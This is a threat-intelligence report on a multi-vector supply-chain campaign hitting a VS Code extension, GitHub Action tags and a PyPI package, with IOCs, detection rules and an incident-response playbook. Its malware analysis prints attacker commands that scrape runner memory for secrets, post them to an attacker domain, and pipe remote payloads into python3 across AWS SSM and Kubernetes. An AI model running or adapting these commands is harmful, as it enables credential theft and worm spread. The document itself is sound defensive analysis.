

# TeamPCP 48-Hour Mega-Campaign — actions-cool Tag Poisoning, durabletask PyPI Worm, Nx Console VS Code Extension and the GitHub Internal Repo Breach

## TL;DR

Between 18-May-2026 12:36 UTC and 20-May-2026, the TeamPCP cluster (Google
Threat Intelligence Group: UNC6780) ran four overlapping supply-chain
intrusions that landed on every layer of the modern developer trust surface
in 48 hours. On 18-May at 12:36 UTC the `nrwl.angular-console` VS Code
extension (Nx Console, 2.2M installs) was briefly backdoored on the VS Code
Marketplace; the community pulled it within 11 minutes but the window was
enough to plant the seed that GitHub confirmed on 20-May as exfiltration of
~3,800 GitHub-internal repositories from one compromised employee endpoint.
At 19:10 UTC the same day, every single tag of the popular GitHub Action
`actions-cool/issues-helper` (53 tags) plus its sibling
`actions-cool/maintain-one-comment` (15 tags) was repointed to imposter
commits that download the bun runtime to the runner, read
`/proc/<Runner.Worker PID>/mem` to scrape decrypted CI/CD secrets and
exfiltrate them to `t.m-kosche.com`. On 19-May the same actor pushed three
malicious versions of Microsoft's official `durabletask` PyPI package
(v1.4.1-v1.4.3, ~400k monthly downloads) carrying the `rope.pyz` evolution
of `transformers.pyz` — adds AWS SSM and Kubernetes lateral propagation,
Bitwarden/1Password CLI brute force and bash/zsh history scraping. The day
matters because the operator demonstrated that **`t.m-kosche.com`,
`check.git-service.com` and `83.142.209.194` are a shared infrastructure
spine connecting npm tag-poisoning, PyPI worm and Marketplace extension
backdoors** — same actor, different ecosystem, same exfil sink.

## Attribution and confidence

- **Cluster (vendor):** **TeamPCP** (Wiz, StepSecurity, Socket, OX
  Security); **UNC6780** (Google Threat Intelligence Group).
- **Aliases / overlap:** Mini Shai-Hulud (the family of self-replicating
  npm/PyPI worms TeamPCP operates), not the original Shai-Hulud worm of
  2025 but the TeamPCP-adapted lineage tracked across Days 2, 9, 15
  (secondary), 18 (primary) and 23 (secondary) of this diary.
- **Vendor discovery:**
  - **StepSecurity** (Varun Sharma), 18-May-2026 — first to surface the
    `actions-cool/issues-helper` tag-poisoning, with full 68-imposter-commit
    table and Harden-Runner telemetry of the bun + Runner.Worker memory
    read.
  - **Wiz** (Rami McCarthy), 19-May-2026 — `durabletask` v1.4.1-v1.4.3
    triage with `rope.pyz` payload deltas vs `transformers.pyz` v2 from the
    Mini Shai-Hulud Day-18 wave.
  - **Snyk** and **Socket Threat Intelligence** (Philipp Burckhardt),
    19-May-2026 — linked the `@antv` npm wave to the actions-cool incident
    via the shared `t.m-kosche.com` exfil domain.
  - **Aikido Security** (Charlie Eriksen), 20-May-2026 — narrowed the
    VS Code Marketplace candidate to `nrwl.angular-console v18.95.0`
    (Nx Console) published at 12:36 UTC on 18-May with malicious code
    injected into `main.js`.
  - **GitHub** corporate statement, 20-May-2026 — confirmed
    ~3,800 GitHub-internal repositories exfiltrated from a compromised
    employee endpoint via a poisoned VS Code extension (extension name
    deliberately withheld in the corporate disclosure).
  - **Help Net Security**, 20-May-2026 — TeamPCP claim on cybercrime forums
    asking $50k+ for the GitHub internal data, threatening leak if no buyer
    appears.
- **Confidence:**
  - **High** on attack mechanics — three independent vendor postmortems
    (StepSecurity, Wiz, Snyk) plus first-party telemetry from GitHub.
  - **High** on cross-vector linkage — shared exfil domain
    `t.m-kosche.com` observed in actions-cool, `@antv` and durabletask;
    shared C2 IP `83.142.209.194` ties durabletask to the
    `transformers.pyz` Day 18 payload (`Wiz`, 19-May).
  - **Medium** on the Nx Console candidacy — Aikido Security pinpointed
    `nrwl.angular-console v18.95.0` based on time-stamp matching and main.js
    injection pattern; GitHub has not publicly named the extension at
    publication time.
- **Genealogy with this repo:**

| Day | Slug | Role |
|---|---|---|
| Day 2 | `2026-04-29_bitwarden_shai-hulud` | original Shai-Hulud worm, npm |
| Day 15 | secondary (CanisterSprawl) | npm worm referenced in 2026-05-11 |
| Day 18 | `2026-05-14_Mini-Shai-Hulud-TeamPCP-Mega-Campaign` | TanStack + Mistral wave, `transformers.pyz` v2, `83.142.209.194` first observed |
| Day 23 | secondary | Grafana codebase steal via Pwn Request shape |
| **Day 24 (today)** | `2026-05-21_TeamPCP-48h-Multi-Vector-SupplyChain` | tag-poisoning + durabletask + Marketplace + GitHub corporate breach, all converging on `t.m-kosche.com` |

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Resource Development | T1587.001 | TeamPCP builds the imposter-commit toolkit (53+15 dangling commits crafted with `"Build action for vX.Y.Z"` messages matching the maintainer style); builds the `rope.pyz` evolution of `transformers.pyz` adding AWS SSM and K8s lateral; weaponises `nrwl.angular-console v18.95.0` `main.js` |
| Initial Access (vector A — Marketplace) | T1195.002, T1199 | `nrwl.angular-console v18.95.0` published to VS Code Marketplace 18-May 12:36 UTC; a GitHub employee installs (or auto-updates) the extension and the malicious `main.js` runs in the IDE process |
| Initial Access (vector B — tag mutability) | T1195.002 | All 53 tags of `actions-cool/issues-helper` and all 15 tags of `actions-cool/maintain-one-comment` are repointed to imposter commits between 18-May 19:10:24 UTC and 19:31:09 UTC; any workflow referencing the action by version pulls malicious code on next run |
| Initial Access (vector C — PyPI publish) | T1195.002, T1078 | TeamPCP publishes `durabletask v1.4.1`, `v1.4.2`, `v1.4.3` to PyPI on 19-May within a 35-minute window using a PyPI token harvested from a prior GitHub-secret dump |
| Execution | T1059.006, T1059.007 | On Linux runner / dev host: `bun` downloads + `python3 /tmp/managed.pyz` + `/tmp/rope-*.pyz` execute; `__init__.py` and `task.py` injection points trigger on `import` |
| Defense Evasion | T1480, T1027 | Geofence: payload skips Russian-locale systems; SSL verification re-enabled (was disabled in `transformers.pyz` v1); RSA-key rotation Key A → Key B for delivery |
| Credential Access (runner) | T1528, T1552.005, T1614.001 | Reads `/proc/<Runner.Worker PID>/mem` from a `python3` child process to scrape decrypted GitHub Actions secrets; greps for `"isSecret":true`; calls `gh auth token` and pipes through `sudo python3` |
| Credential Access (host) | T1552.001, T1552.004, T1552.007 | Scrapes AWS/Azure/GCP/K8s/Vault credentials from 90+ filesystem locations; brute-forces Bitwarden `bw` and 1Password `op` CLI sessions with passwords from env and shell history |
| Discovery | T1083, T1087.004 | Walks `.aws/`, `.kube/`, `.gnupg/`, `.bash_history`, `.zsh_history`; reads `kubectl` configs and EKS aws-auth ConfigMap |
| Lateral Movement | T1611 (cloud) | AWS SSM `SendCommand` + `DescribeInstanceInformation` to up to 5 EC2 targets per host; Kubernetes `kubectl exec` lateral to up to 5 pod/node targets per host; serialises state to `/tmp/.rope_state/ssm_instances.json` |
| Persistence | T1098.001, T1136.002 | Drops infection markers `~/.cache/.sys-update-check` (general) and `~/.cache/.sys-update-check-k8s` (Kubernetes); on GitHub-employee endpoint the extension persists across IDE restarts via Marketplace auto-update |
| Command and Control | T1071.001, T1102 | Primary: `check.git-service.com`; fallback: `t.m-kosche.com`; legacy C2 IP `83.142.209.194` reused from Day 18; killswitch on `/v1/models`, exfil on `/api/public/version`, destructive trigger on `/audio.mp3` (Israel/Iran only) |
| Exfiltration | T1041, T1567.002 | Encoded secrets POSTed to `/api/public/version`; for GitHub corporate vector the operator pulls full repo content (3,800 internal repos) via the compromised employee's PAT and clones to operator-controlled infrastructure |
| Impact | T1485, T1531 | The `/audio.mp3` endpoint triggers destructive wipe in Israel-/Iran-locale hosts (carried over from Day 18 mistralai==2.4.6); operator listing on cybercrime forums for $50k+ for the GitHub corporate dataset, threatens leak if no buyer |



The diagram lays out three parallel intrusion lanes on the victim side
(Marketplace extension → IDE process; GitHub Action tag → runner secret
memory; PyPI install → dev host worm) all converging on the TeamPCP C2 spine
on the right (`check.git-service.com`, `t.m-kosche.com`, `83.142.209.194`).
The yellow bidirectional arrow on the worm stage emphasises that
`rope.pyz` propagates laterally via AWS SSM and Kubernetes — the same C2
spine is both delivery and command channel. Detection anchors live in the
footer box: imposter commit on runner, `/proc/<PID>/mem` read by python3
child, `~/.cache/.sys-update-check` marker, `bun` download path
`/home/runner/.bun/bin/bun`, DNS to the three IoC anchors.

## Stage-by-stage detail

### Stage 1 — Resource Development (T1587.001)

TeamPCP staged three weapon packages in parallel.

- **Imposter-commit toolkit.** 68 dangling commits crafted with messages of
  the form `"Build action for vX.Y.Z"`, mirroring the maintainer style. All
  53 `issues-helper` commits land inside a 3-minute 16-second window
  (`2026-05-18T19:10:24Z → 19:13:40Z`); all 15 `maintain-one-comment`
  commits land inside 39 seconds (`19:30:30Z → 19:31:09Z`). None are
  reachable from the default branch of either repo — they are pure
  tag-targets.
- **`rope.pyz` payload evolution.** Wiz's diff vs the Day-18
  `transformers.pyz` v2:

| Attribute | `transformers.pyz` v2 (Day 18) | `rope.pyz` (Day 24) |
|---|---|---|
| Primary C2 | `83.142.209.194` | `check.git-service.com` |
| Backup C2 | n/a | `t.m-kosche.com` |
| AWS SSM propagation | no | yes (up to 5 targets/host) |
| K8s lateral movement | no | yes (up to 5 targets/host) |
| Password manager brute force | no | yes (Bitwarden, 1Password, GPG) |
| Shell history scraping | no | yes (.bash_history, .zsh_history) |
| Infection marker | n/a | `~/.cache/.sys-update-check` |
| RSA key | Key A | Key B (new) |
| SSL verification | disabled | enabled (looks legit to corp proxy) |

- **Nx Console `v18.95.0`.** Aikido Security identifies malicious code
  injected into `main.js`; the package published to the VS Code Marketplace
  at 12:36 UTC on 18-May.

```text
nrwl.angular-console     v18.95.0  2026-05-18T12:36:00Z   Marketplace publish
actions-cool/...         53 + 15 tags  2026-05-18T19:10:24Z → 19:31:09Z  Tag rewrite
durabletask              v1.4.1-3   2026-05-19T~13:00:00Z  PyPI publish (35-min window)
```

### Stage 2 — Initial Access vector A: VS Code Marketplace extension

The Marketplace gives extension publishers full file-system access on the
developer machine, no sandbox, no permission scope, no Content Security
Policy enforcement on the extension host process. Auto-update is on by
default for most installations. Eleven minutes was enough to land
`nrwl.angular-console v18.95.0` on a GitHub employee endpoint that had Nx
Console installed. The compromised endpoint had access to GitHub-internal
PATs scoped to read internal repositories.

```text
extension id:   nrwl.angular-console
malicious ver:  v18.95.0
publish UTC:    2026-05-18T12:36:00Z
window open:    11 minutes (community detection)
publisher trust: legitimate publisher, supply-side compromise
result:         exfiltration of ~3,800 GitHub-internal repositories
```

T1195.002 (Compromise Software Supply Chain) + T1199 (Trusted Relationship,
the publisher's signing key).

### Stage 3 — Initial Access vector B: GitHub Action tag mutability

Every consumer pinning by floating version (`actions-cool/issues-helper@v3`
or `@v3.8.0`) resolved on next workflow run to the imposter commit. The
malicious commit's `action.yml` calls `node dist/index.js` exactly like the
legitimate version — there is no telltale process tree shift. What the
imposter `dist/index.js` actually does:

```bash
# pseudo-shell of the imposter dist/index.js
curl -fsSL https://bun.sh/install | bash               # download bun runtime
~/.bun/bin/bun -e "$(curl -fsSL <attacker_payload>)"   # exec attacker JS via bun
# inside the bun child:
gh auth token                                          # pull workflow GITHUB_TOKEN
sudo python3 -c "import sys; open('/proc/'+sys.argv[1]+'/mem','rb').read(0x7fffffff)" <RW_PID>
# pipe the dump through tr/grep
grep -ao '"isSecret":true[^}]*' | jq -r '.value' \
  | curl --data-binary @- https://t.m-kosche.com/
```

T1528 (Steal Application Access Token) + T1552.005 (Cloud Instance Metadata
API — analogous: Runner.Worker process memory). Detection sits not on the
network call but on `python3 read of /proc/<other-PID>/mem` and `bun`
spawned from a GitHub Actions runner.

### Stage 4 — Initial Access vector C: PyPI direct publish

The attacker dumped GitHub secrets from a previous TeamPCP intrusion; one
of those secrets was a PyPI token with publish rights on `microsoft/durabletask`.
Three malicious versions published within 35 minutes:

| Version | Wheel SHA256 | Injection point | Status |
|---|---|---|---|
| `1.4.1` | `7d80b3ef74ad7992b93c31966962612e4e2ceb93e7727cdbd1d2a9af47d44ba8` | `__init__.py` | malicious |
| `1.4.2` | `aeaf583e20347bf850e2fabdcd6f4982996ba023f8c2cd56bbd299cfd56516f5` | `task.py` | malicious |
| `1.4.3` | `877ff2531a63393c4cb9c3c86908b62d9c4fc3db971bc231c48537faae6cb3ec` | `entities/__init__.py` + `extensions/__init__.py` + `payload/__init__.py` | malicious |
| `1.4.0` and earlier | — | n/a | clean — pin here |

On install or first `import durabletask` the injection point downloads
`rope.pyz` (SHA256 `069ac1dc7f7649b76bc72a11ac700f373804bfd81dab7e561157b703999f44ce`)
to `/tmp/managed.pyz` or `/tmp/rope-<random>.pyz` and executes with
`python3`. The payload is the AWS SSM / K8s-extended evolution of
`transformers.pyz` v2.

### Stage 5 — Credential Access (runner)

Inside the GitHub Actions runner, the imposter commit's bun child reads
memory of the parent `Runner.Worker` process. That process holds every
decrypted GitHub Actions secret already mapped into its address space —
`GITHUB_TOKEN`, OIDC tokens, repo-scoped PATs, npm tokens, AWS access keys
configured via `aws-actions/configure-aws-credentials`, container registry
credentials. The harvester filters for `"isSecret":true` markers in the
runner's internal secret representation and POSTs them to
`t.m-kosche.com/api/public/version`.

```bash
# Harden-Runner-observed primitives (StepSecurity, 18-May-2026)
/home/runner/.bun/bin/bun         # downloaded JS runtime
sudo python3                      # privileged child that reads /proc/<PID>/mem
gh auth token                     # ephemeral PAT extraction
tr -d '\0' | grep -ao "isSecret"  # secret-marker filter
curl --data-binary @-             # exfiltration
```

T1614.001 (System Location Discovery: System Language) + T1552.005.

### Stage 6 — Credential Access (host)

Once `rope.pyz` lands on a developer host or CI/CD runner the credential
sweep covers:

- AWS: `~/.aws/credentials`, `~/.aws/config`, `AWS_*` env, EC2 IMDSv2 if
  reachable, SSM parameters via boto3 if creds yield it.
- Azure: `~/.azure/`, `AZURE_*` env, MSI/IMDS if reachable.
- GCP: `~/.config/gcloud/`, `GOOGLE_APPLICATION_CREDENTIALS`.
- Kubernetes: `~/.kube/config`, in-cluster `/var/run/secrets/kubernetes.io/serviceaccount/`.
- HashiCorp Vault: `VAULT_TOKEN`, `~/.vault-token`.
- Filesystem: 90+ paths covering SSH (`~/.ssh/id_*`), GPG, npm
  (`~/.npmrc`), Docker (`~/.docker/config.json`), pip (`~/.pypirc`),
  Git LFS, Foundry/Ethereum keystores, Slack desktop cache, 1Password,
  Bitwarden, pass/gopass.
- Shell history: full `.bash_history` and `.zsh_history` exfiltrated as
  shell history routinely contains pasted creds.
- Password manager brute force: `bw unlock` and `op signin` repeatedly with
  passwords harvested from env and shell history.

T1552.001, T1552.004, T1552.007.

### Stage 7 — Lateral movement (AWS SSM + Kubernetes)

The novel `rope.pyz` deltas:

```bash
# AWS SSM lateral (max 5 targets per host)
aws ssm describe-instance-information --output json > /tmp/.rope_state/ssm_instances.json
aws ssm send-command --instance-ids <id> --document-name AWS-RunShellScript \
    --parameters '{"commands":["curl https://check.git-service.com/rope.pyz | python3 -"]}'
```

```bash
# Kubernetes lateral (max 5 targets per host)
kubectl get pods -A -o json
kubectl exec -n <ns> <pod> -- /bin/sh -c 'curl https://check.git-service.com/rope.pyz | python3 -'
```

The 5-targets cap exists to slow detection without losing reach in
medium-size estates. Sets `~/.cache/.sys-update-check-k8s` when the K8s
branch ran, separate marker from `~/.cache/.sys-update-check`.

T1611 (Escape to Host — abstracted as cloud-plane lateral).

### Stage 8 — Command and control

| Endpoint | Purpose |
|---|---|
| `check.git-service.com` | primary payload + C2 channel |
| `t.m-kosche.com` | fallback C2; primary for actions-cool runner exfil |
| `83.142.209.194` | legacy C2 from Day-18 wave; reused for some `rope.pyz` builds |
| `/v1/models` | killswitch / command endpoint (mimics OpenAI API path) |
| `/audio.mp3` | destructive trigger (Israel/Iran locale only) |
| `/api/public/version` | exfil endpoint |

T1071.001, T1102.

### Stage 9 — Impact

The destructive branch (`/audio.mp3` triggers `rm -rf` against the home
directory of hosts whose locale flags Israel or Iran) is carried over from
the `mistralai==2.4.6` payload of Day 18. The repo-theft branch — operator
listing the 3,800 internal GitHub repos for sale on cybercrime forums at
$50k+ — is the operator-side monetisation; cross-references the Day-22
on-chain-attribution lesson (TRM Labs methodology) but TeamPCP avoids
cryptocurrency on the customer side.

T1485 (Data Destruction), T1531 (Account Access Removal — for victims
whose tokens get revoked-and-replaced).

## RE notes

| Component | SHA256 | Lang | Packer | Notes |
|---|---|---|---|---|
| `rope.pyz` | `069ac1dc7f7649b76bc72a11ac700f373804bfd81dab7e561157b703999f44ce` | Python | zipapp (`PK` magic + `__main__.py`) | adds AWS SSM + K8s lateral + Bitwarden/1Password brute force vs `transformers.pyz` v2 |
| `durabletask-1.4.1-py3-none-any.whl` | `7d80b3ef74ad7992b93c31966962612e4e2ceb93e7727cdbd1d2a9af47d44ba8` | n/a | wheel | injection in `__init__.py` |
| `durabletask-1.4.2-py3-none-any.whl` | `aeaf583e20347bf850e2fabdcd6f4982996ba023f8c2cd56bbd299cfd56516f5` | n/a | wheel | injection in `task.py` |
| `durabletask-1.4.3-py3-none-any.whl` | `877ff2531a63393c4cb9c3c86908b62d9c4fc3db971bc231c48537faae6cb3ec` | n/a | wheel | three injection points across submodules |

Anti-analysis evolution from `transformers.pyz` v2:

- SSL verification re-enabled in `rope.pyz` — egress to `check.git-service.com`
  looks legitimate to corporate TLS-inspecting proxies because the cert
  chain validates.
- RSA key rotated (Key A → Key B) — same encrypted-config-blob shape but a
  fresh key prevents pivot from Day-18 analysis on the new wheel.
- Locale skip (T1480) is the same Russian-locale guard.

Pseudo-code anchors from the bun-stage of the actions-cool incident
(StepSecurity reverse-engineered from Harden-Runner process telemetry):

```javascript
// imposter dist/index.js
const { execSync } = require('child_process');
const installBun = `curl -fsSL https://bun.sh/install | bash`;
execSync(installBun);
const stage2 = execSync(
  `~/.bun/bin/bun -e "$(curl -fsSL https://t.m-kosche.com/p1)"`
).toString();
// stage2 reads /proc/<Runner.Worker PID>/mem via sudo python3 child
// stage2 greps "isSecret":true patterns and POSTs to t.m-kosche.com
```

## Detection strategy

### Telemetry that matters

- **GitHub Actions runner telemetry:** auditd `execve` events, `/proc/*/mem`
  reads by non-Runner.Worker PIDs, outbound DNS from runner workloads to
  unfamiliar domains. The default GitHub-hosted runner has no host EDR —
  detection requires either Harden-Runner-style instrumentation or
  Splunk-OnSecops-style egress sensor in front of the runner subnet (for
  self-hosted runners).
- **Linux dev-host telemetry:** Sysmon for Linux EID 1 (process create),
  EID 11 (file create) for `~/.cache/.sys-update-check*` and `/tmp/*.pyz`,
  EID 3 (network connection) for `check.git-service.com` /
  `t.m-kosche.com`. auditd rules on `~/.aws/`, `~/.kube/config`,
  `~/.ssh/id_*` reads from non-shell-interactive PIDs.
- **Cloud audit logs:** AWS CloudTrail `ssm:SendCommand`,
  `ssm:DescribeInstanceInformation` with non-standard `commands` payload;
  Kubernetes audit logs `pods/exec` from unusual subjects (CI service
  accounts that have never `exec`-ed before).
- **VS Code endpoint telemetry:** Defender XDR `DeviceProcessEvents` where
  `InitiatingProcessFileName == "Code.exe"` and child is `node.exe`
  spawning suspicious subprocesses; `DeviceFileEvents` writes into
  `~/.vscode/extensions/<publisher>.<extension>/<version>/` correlated with
  `DeviceNetworkEvents` egress from the extension host node process.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/actions_cool_bun_runner_secret_dump.yml` | process_creation: `python3` reads `/proc/<PID>/mem` where target PID is the parent Runner.Worker — detects the imposter-commit secret scrape pattern |
| Sigma | `sigma/teampcp_rope_pyz_python_pyz_exec.yml` | process_creation: `python3` executing `/tmp/managed.pyz` or `/tmp/rope-*.pyz` |
| Sigma | `sigma/teampcp_infection_marker_dotcache_sys_update.yml` | file_event: creation of `~/.cache/.sys-update-check` or `~/.cache/.sys-update-check-k8s` |
| KQL | `kql/teampcp_t_m_kosche_egress_join_developer_endpoint.kql` | Defender XDR — `DeviceNetworkEvents` egress to `t.m-kosche.com` / `check.git-service.com` from any developer endpoint joined with `DeviceProcessEvents` for `Code.exe` or `python3` lineage |
| KQL | `kql/teampcp_vscode_extension_anomalous_egress_after_install.kql` | Defender XDR — extension manifest install/update under `~/.vscode/extensions/` followed within 30 minutes by outbound HTTPS to a non-baselined FQDN from the Code.exe node child |
| KQL | `kql/teampcp_durabletask_install_burst_then_pyz_drop.kql` | Defender XDR — `pip install durabletask` or wheel-sha match followed within 5 minutes by `/tmp/*.pyz` write and python3 exec |
| YARA | `yara/TeamPCP_rope_pyz_2026.yar` | zipapp `PK` + `__main__.py` + multi-IoC anchors (`check.git-service.com`, `t.m-kosche.com`, `83.142.209.194`, `sys-update-check`, `rope_state`, `audio.mp3`) + 2+ cred-path anchors + filesize cap |
| Suricata | `suricata/teampcp_48h_supply_chain.rules` | DNS for the three FQDNs; HTTP to the three exfil endpoints; reuse of the legacy IP |

### Threat hunting hypotheses

- **H1 — Imposter-commit secret theft on Actions runners.** See
  [`hunts/peak_h1_imposter_commit_runner_memory_read.md`](./hunts/peak_h1_imposter_commit_runner_memory_read.md).
- **H2 — `rope.pyz` worm in CI/CD or developer hosts.** See
  [`hunts/peak_h2_rope_pyz_worm_dev_endpoints.md`](./hunts/peak_h2_rope_pyz_worm_dev_endpoints.md).
- **H3 — VS Code Marketplace extension anomalous egress.** See
  [`hunts/peak_h3_vscode_marketplace_anomalous_egress.md`](./hunts/peak_h3_vscode_marketplace_anomalous_egress.md).

## Incident response playbook

### First 60 minutes (triage)

1. Search every GitHub Actions workflow file in the org for any reference
   to `actions-cool/issues-helper` or `actions-cool/maintain-one-comment`,
   pinned by tag, branch or non-allowlisted commit SHA. If any match is not
   pinned to a clean pre-2026-05-18T19:10Z full SHA, treat the runner that
   executed it within the last 5 days as compromised.
2. Search PyPI install logs / lockfiles for `durabletask==1.4.1`,
   `1.4.2` or `1.4.3`. If any match, treat that host or container image as
   compromised and quarantine before revoking tokens.
3. Search VS Code endpoints (developer estate, especially with cloud or
   source-control access) for `~/.vscode/extensions/nrwl.angular-console-18.95.0/`.
   On Windows: `%USERPROFILE%\.vscode\extensions\nrwl.angular-console-18.95.0\`.
4. Block at DNS or proxy layer: `check.git-service.com`, `t.m-kosche.com`,
   and IP `83.142.209.194`.
5. On any host that matched 1-3: capture full RAM and `/tmp` snapshot
   **before** revoking tokens — the in-memory secret list and ssm_instances
   state-file are needed for downstream IR.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Runner audit log | GitHub Actions log archive per run | `gh run download` | shows the `bun` install line and the `python3` /proc/mem read |
| Imposter-commit ref | `git -C <repo> reflog show <tag>` | `git` | shows when the tag was rewritten and to which SHA |
| `rope.pyz` payload | `/tmp/managed.pyz`, `/tmp/rope-*.pyz` | `cp` / `find` | for YARA match and pivot to operator key |
| Infection markers | `~/.cache/.sys-update-check`, `~/.cache/.sys-update-check-k8s` | `find` / `stat` | confirms payload execution and propagation lane |
| SSM lateral state | `/tmp/.rope_state/ssm_instances.json` | `cat` | enumerates which AWS instances the worm targeted |
| VS Code extension | `~/.vscode/extensions/nrwl.angular-console-18.95.0/` | `tar` | weaponised `main.js` for YARA + supply-side artefact preservation |
| Defender XDR exports | `DeviceProcessEvents`, `DeviceNetworkEvents`, `DeviceFileEvents` | KQL `export` | timeline reconstruction across endpoints |
| CloudTrail extract | `ssm:SendCommand`, `ssm:DescribeInstanceInformation` 30 days | aws cli | scope AWS lateral reach |
| K8s audit log | `pods/exec` 30 days | kubectl + jq | scope Kubernetes lateral reach |

### IR queries and commands

```powershell
# Windows dev endpoints — Nx Console v18.95.0 candidate check
Get-ChildItem -Path "$env:USERPROFILE\.vscode\extensions\" -Filter "nrwl.angular-console-*" |
  Where-Object { $_.Name -like "*18.95.0*" } |
  Select-Object FullName, LastWriteTime
```

```bash
# Linux runners / dev hosts — infection marker sweep
find / \( -name '.sys-update-check' -o -name '.sys-update-check-k8s' \) -type f 2>/dev/null
ls -la /tmp/managed.pyz /tmp/rope-*.pyz 2>/dev/null
ls -la /tmp/.rope_state/ 2>/dev/null

# auditd-style reverse on /proc/<PID>/mem reads in last 7 days
ausearch -k mem_read -ts recent | grep -i '/proc/.*/mem'
```

```kql
// Defender XDR — last 14 days correlation across the three vectors
let teampcp_fqdns = dynamic(["check.git-service.com","t.m-kosche.com"]);
let teampcp_ip = "83.142.209.194";
let lookback = 14d;
union
(DeviceNetworkEvents
  | where Timestamp > ago(lookback)
  | where RemoteUrl has_any (teampcp_fqdns) or RemoteIP == teampcp_ip
  | project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessFileName, InitiatingProcessCommandLine),
(DeviceFileEvents
  | where Timestamp > ago(lookback)
  | where FolderPath has_any (".sys-update-check","managed.pyz","rope-")
        or FileName has_any (".sys-update-check","managed.pyz")
  | project Timestamp, DeviceName, FolderPath, FileName, InitiatingProcessFileName, InitiatingProcessCommandLine)
| sort by Timestamp desc
```

### Containment, eradication, recovery

- **Containment criteria:** any host with a `~/.cache/.sys-update-check*`
  marker or a `/tmp/*.pyz` artefact is quarantined at host firewall level
  before any token revocation. Revoke order: AWS IAM keys → Azure service
  principal client secrets → GCP service account keys → npm/PyPI tokens →
  GitHub PATs → SSH keys → Bitwarden/1Password vaults (assume vault
  contents compromised, rotate every entry).
- **GitHub Actions workflows:** repin every action reference to a full
  SHA known to be valid before 2026-05-18T19:10Z (or the action's prior
  legitimate release). Disable `permissions: write-all` defaults. Use
  StepSecurity Harden-Runner or equivalent egress allowlist on every
  runner.
- **What NOT to do:**
  - Do NOT revoke tokens before host isolation. The `rope.pyz` token-revoke
    trigger (`/v1/models` killswitch on HTTP 40x from GitHub API) carries
    the same destructive branch as Day 18 `gh-token-monitor`.
  - Do NOT keep `nrwl.angular-console v18.95.0` extension installed even
    "for forensic preservation" — copy the extension folder out via cold
    snapshot then uninstall.
  - Do NOT trust SLSA Build Level 3 provenance as a clean signal for
    `durabletask` v1.4.1-v1.4.3. The provenance certifies the build, not
    the publish-actor identity (same lesson as Day 18, hardened today).
  - Do NOT re-enable any GitHub Action tag pinning policy until your
    workflow consumer audit shows zero floating tags across the org.

### Recovery validation

- Re-run any previously failed workflow against re-pinned SHAs and confirm
  no `bun` install in the runner audit log.
- Wait 7 days post-token-rotation and re-check `DeviceNetworkEvents`,
  CloudTrail and K8s audit logs for any latent egress to the three IoC
  anchors.
- Confirm zero filesystem matches for `~/.cache/.sys-update-check*` and
  `/tmp/*.pyz` across the developer estate via baseline scan.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| domain | `check.git-service.com` | primary C2 / payload host for `rope.pyz` | high | Wiz, 2026-05-19 |
| domain | `t.m-kosche.com` | secondary C2; primary exfil for actions-cool runner secrets | high | StepSecurity + Wiz, 2026-05-18/19 |
| ipv4 | `83.142.209.194` | legacy C2 reused from Day 18 (`transformers.pyz` v2 lineage) | high | Wiz, 2026-05-19 |
| sha256 | `069ac1dc7f7649b76bc72a11ac700f373804bfd81dab7e561157b703999f44ce` | `rope.pyz` payload | high | Wiz, 2026-05-19 |
| sha256 | `7d80b3ef74ad7992b93c31966962612e4e2ceb93e7727cdbd1d2a9af47d44ba8` | `durabletask-1.4.1-py3-none-any.whl` | high | Wiz, 2026-05-19 |
| sha256 | `aeaf583e20347bf850e2fabdcd6f4982996ba023f8c2cd56bbd299cfd56516f5` | `durabletask-1.4.2-py3-none-any.whl` | high | Wiz, 2026-05-19 |
| sha256 | `877ff2531a63393c4cb9c3c86908b62d9c4fc3db971bc231c48537faae6cb3ec` | `durabletask-1.4.3-py3-none-any.whl` | high | Wiz, 2026-05-19 |
| string | `1c9e803c80cc7fed000022d4c94f4b5bc2e90062` | imposter commit `v3.8.0` `actions-cool/issues-helper` | high | StepSecurity, 2026-05-18 |
| string | `7f6120bb10c870b9fde146961a18e5bf0b3d4401` | imposter commit `v3.3.0` `actions-cool/maintain-one-comment` | high | StepSecurity, 2026-05-18 |
| path | `/tmp/managed.pyz` | runtime payload drop | high | Wiz, 2026-05-19 |
| path | `/tmp/rope-*.pyz` | runtime payload drop (random suffix) | high | Wiz, 2026-05-19 |
| path | `~/.cache/.sys-update-check` | infection marker (general) | high | Wiz, 2026-05-19 |
| path | `~/.cache/.sys-update-check-k8s` | infection marker (Kubernetes lateral) | high | Wiz, 2026-05-19 |
| path | `/tmp/.rope_state/ssm_instances.json` | SSM lateral state file | high | Wiz, 2026-05-19 |
